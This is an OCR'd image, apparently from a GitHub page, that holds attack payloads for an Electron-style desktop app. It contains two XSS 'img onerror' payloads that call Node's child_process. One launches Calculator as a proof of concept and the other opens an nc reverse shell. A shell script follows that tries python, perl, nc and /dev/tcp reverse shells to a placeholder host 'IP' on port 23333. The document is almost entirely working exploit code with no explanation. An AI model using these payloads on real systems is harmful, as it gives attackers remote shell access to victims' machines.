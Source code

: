 <img src=x onerror="javascript:
window.parent.top.require('child_process').execFile('/Applications/Calculator.app/Contents/MacOS/Calculator',function(error, stdout, stderr){if(error){console.log(error);} });">

<img src=x onerror="javascript:
window.parent.top.require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP 23333 >/tmp/f' });">

```shell
#curl https://shell.now.sh/IP:23333
if command -v python > /dev/null 2>&1; then
	python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("IP",23333)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
	exit;
fi

if command -v perl > /dev/null 2>&1; then
	perl -e 'use Socket;$i="IP";$p=23333;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
	exit;
fi

if command -v nc > /dev/null 2>&1; then
	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP 23333 >/tmp/f
	exit;
fi

if command -v sh > /dev/null 2>&1; then
	/bin/sh -i >& /dev/tcp/IP/23333 0>&1
	exit;
fi%
```